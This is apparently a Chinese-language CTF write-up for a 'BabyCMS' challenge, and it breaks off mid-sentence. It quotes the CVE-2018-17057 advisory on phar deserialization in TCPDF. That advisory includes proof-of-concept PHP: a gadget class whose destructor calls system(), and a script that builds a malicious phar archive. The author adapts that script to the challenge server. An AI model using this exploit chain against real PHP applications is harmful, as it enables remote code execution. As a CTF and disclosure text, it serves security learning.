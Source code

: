# BabyCMS

提示说了 TCPDF，这个库用的是 6.2.8 版本。

TCPDF 6.2.22之前版本中存在安全漏洞。攻击者可利用该漏洞反序列化任意数据[（link）](http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-201809-735)。

太好了（不是

```php
CVE-2018-17057: phar deserialization in TCPDF might lead to RCE
---------------------------------------------------------------

Affected products
=================

TCPDF <= 6.2.19

Background
==========

"Started in 2002, TCPDF is now one of the world's most active Open Source
projects, used daily by millions of users and included in thousands of CMS
and Web applications." - https://tcpdf.org/

"PHP library for generating PDF documents on-the-fly." -
https://github.com/tecnickcom/TCPDF

Description
===========

TCPDF allows the developers to insert HTML code inside the PDF, which will
be translated to a similar-looking design during PDF creation. For example
it is possible to insert basic HTML tags, such as "img" or "b" and have the
image and bold text placed in the output PDF.
The library allows also to include custom CSS rules by defining a "link"
tag, like the following:
<link type="text/css" href="style.css">

While it is a nice feature to have for the developer, it may cause problems
in case the PDF creation script is vulnerable to Cross-Site Scripting (or
"Code Injection") issues through which an attacker can inject arbitrary
HTML code. For example during an invoice creation, an attacker can use its
information written on the invoice to insert a malicious "link" tag
pointing to a local phar archive and trigger a PHP Object Injection through
the phar:// scheme once the web application reads that file.

Exploit
=======

In order to test this vulnerability it's enough to clone the project from
github and checkout a vulnerable version, such as 6.2.19:
git clone https://github.com/tecnickcom/TCPDF.git && cd TCPDF && git
checkout tags/6.2.19

After that it is possible to craft a phar archive containing a malicious
PHP Object and potentially trigger a RCE, here is a vulnerable code which
helps to reproduce the issue:
<?php
/*
*    title:     PHP object injection via phar:// deserialization
*    author:    polict
*    target:    TCPDF (https://github.com/tecnickcom/TCPDF) <= 6.2.19
*    setup:     git clone https://github.com/tecnickcom/TCPDF.git && cd
TCPDF && git checkout tags/6.2.19
*/

/* include vulnerable class (any PHP Object Injection gadget can be used,
see https://github.com/ambionics/phpggc) */
class Vulnerable {
    function __destruct() { system($this->hook); }
}

/* include the main TCPDF library */
require_once('tcpdf.php');
/* create new PDF document */
$pdf = new TCPDF(PDF_PAGE_ORIENTATION, PDF_UNIT, PDF_PAGE_FORMAT, true,
'UTF-8', false);
/* set document information */
$pdf->SetAuthor('polict');
$pdf->SetTitle('Proof of concept');
/* start pdf */
$pdf->AddPage();
/* create some HTML content */
$html = '<link type="text/css" href="phar://./poc.phar">';
/* insert the HTML content -- exploit will trigger here */
$pdf->writeHTML($html, true, false, true, false, '');
/* close and output PDF document */
$pdf->Output('poc.pdf', 'I');

In order to create the evil archive it's possible to use PHP:
<?php
$phar = new Phar('poc.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

$malicious_object = new Vulnerable();
$malicious_object->hook = "whoami";
$phar->setMetadata($malicious_object); // <-- inject the trigger

$phar->stopBuffering();

The archive will be in 'poc.phar'.

Note: This vulnerability depends on the developer using writeHTML() with
user-supplied input.

Author
======

This issue was discovered by polict (https://polict.net).

Timeline
========

17 august 2018:
—> report to developer

14 september 2018:
—> ping
<— released 6.2.20 (which re-introduced the vulnerability reported by Sam
Thomas, see
https://github.com/s-n-t/presentations/blob/master/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf
)
—> ping about re-introduction of old vulnerability
<— released 6.2.22 with fix for both
MITRE assigned CVE-2018-17057

17 march 2019:
public release
```

这个垃圾网站可以通过 `http://111.186.57.85:30042/index.php/Home/Index/xls` 和 `http://111.186.57.85:30042/index.php/Home/Index/csv` Dump 数据。但是，这两个接口的路径都是写死的——没办法直接把 flag 打印出来。

> 可惜

这还算是正常的。

根据 Hint 1: tcpdf，他有一个 `/pdf` 接口，直接通过 HTML 生成 PDF。

这个 tcpdf 有个反序列化漏洞，可以任意执行 phar。

那么，我们就开始生成：

```php
<?php
$phar = new Phar('poc.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

$malicious_object = new Vulnerable();
$malicious_object->hook = "echo flag";
$phar->setMetadata($malicious_object); // <-- inject the trigger

$phar->stopBuffering();
>
```

构造好了这个 phar，但是要把它放到服务器上才能用。遗憾的是，服务器关于上传部分的代码被注释掉了。

好奇怪…按理说这里应该就这种攻击方式了。但是找不到办法去传入 phar。

捏着鼻子把 baijunyao 的代码跟文档读了一遍。然後跟「魔改版」diff 了一下。

几乎一行新代码没加，倒是把原来的代码 Comment 了一大堆。

> 你这不叫「魔改」，叫「阉割」

不过，这道题里割掉了这一个 `_empty` 方法，导致简单的任意模版调用不可行了。

```php
    /**
     * 拦截空方法 自动加载html
     * @param  string $methed_name 空方法
     */
    // Sorry for this...
    // public function _empty($methed_name){
    //     $this->display($methed_name);
    //     exit(0);
    // }
```

新加的代码，只有一行：

![image-20201011163237637](notes.assets/image-20201011163237637.png)

```
    public function __toString()
    {
        file_put_contents("step4", "data");
        return $this->serializeToXml();
    }
```

翻了一下原仓库，是没有这个更动的。

> 五年来没动过；
>
> > 尽管这行代码怎么看都不像正常功能代码；
> >
> > 但这个作者的狂乱代码风格让我不禁有些怀疑；
> >
> > > 已经被他所有标点符号都用分号（竟然还是中文分号！）代替的文风洗脑了；

换言之，如果我们调用一次这个类型的 `__toString` 魔法方法，就会在当前目录下创建一个 `step4` 文件，并向其中写入 `data`。

那么该怎么调用呢？这又是个